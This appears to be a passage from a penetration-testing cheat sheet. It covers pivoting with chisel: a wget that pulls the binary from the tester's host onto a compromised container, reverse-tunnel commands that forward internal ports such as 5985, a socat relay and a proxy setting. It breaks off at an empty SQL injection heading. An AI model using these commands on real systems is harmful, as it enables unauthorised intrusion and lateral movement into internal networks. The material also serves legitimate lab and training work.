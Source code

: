 ```bash
cd /tmp
wget $ip/chisel_1.7.7_linux_amd64
chmod +x chisel
```

I’ll run the binary in server mode on my box:

```bash
./chisel_1.7.7_linux_amd64 server -p <port> --reverse
```

Now I’ll connect with chisel from the container:

```bash
./chisel_1.7.7_linux_amd64 client $my_ip:<port> R:<port to forward>:<target ip>:<port to forward>
```

#### Example

forwarding port `5985` from the docker container

* my machine

```bash
./chisel server -p 5000 --reverse
```

* target machine

```bash
./chisel client <tun0 ip>:<port> R:<port to forward>:<target ip>:<port to forward>
```

#### forward 2 ports at the same time

```bash
.\chisel.exe client <ip>:<local port to listen on> R:<first port to forward>:localhost:<first port to forward> R:<second port to forward>:localhost:<second port to forward>
```

#### Socat

```bash
./socat tcp-listen:8001,reuseaddr,fork tcp:localhost:8000
```

#### Proxy

```bash
export http_proxy=127.0.0.1:8080
```

***

### Web Exploitation

#### SQLi

**Union Payloads**
